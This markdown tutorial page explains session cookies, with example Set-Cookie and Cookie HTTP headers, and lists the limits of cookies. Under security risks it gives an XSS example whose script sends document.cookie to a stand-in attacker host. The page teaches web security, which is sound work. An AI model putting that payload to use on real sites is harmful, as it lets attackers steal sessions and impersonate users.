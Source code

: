
## Session Management  
<img src = "data/cookies/assets/session.png"> 

### **Server-Side Cookies**  

When a user visits a website and logs in, the server needs a way to remember that user across different pages. This is where cookies come in.  

1. The user logs in by sending credentials (e.g., username & password).  
2. The server verifies the credentials and creates a session for the user.  
3. The server sends a `Set-Cookie` header in the HTTP response, instructing the browser to store a cookie.  
4. The cookie (`session_id=abc123`) is now stored in the user's browser, helping the server recognize the user in future requests.  

   **HTTP Response:**  
   ```http
   HTTP/1.1 200 OK  
   Set-Cookie: session_id=abc123; HttpOnly; Secure; SameSite=Strict  
   ```  

### **Client-Side Cookie Retrieval**  

Once stored, the cookie is automatically included in future requests to the same website, allowing the server to identify the user without requiring them to log in again.  

**Browser Request with Cookie:**  
```http
GET /profile HTTP/1.1  
Host: www.example.com  
Cookie: session_id=abc123  
```  

- The browser automatically adds the cookie to every request sent to `www.example.com`.  
- The server reads the cookie and verifies that `session_id=abc123` belongs to a valid logged-in user.  
- The user is shown their personalized profile page without needing to log in again.  

### **Limitations of Cookies**  

- **Storage Limit:** Maximum of **4KB**, restricting data storage.  
- **Network Load:** Sent with every request, increasing bandwidth usage.  
- **Security Risks:**  
  - **Session Hijacking:** Stolen session cookies can be used to impersonate users.  
  - **XSS Attacks:** JavaScript can steal cookies if not properly secured.  
   <img src = "data/cookies/assets/XSS.png">
    ```js
    <script>
    document.location = "http://malicious-site.com/steal?cookie=" + document.cookie;
    </script>
    ```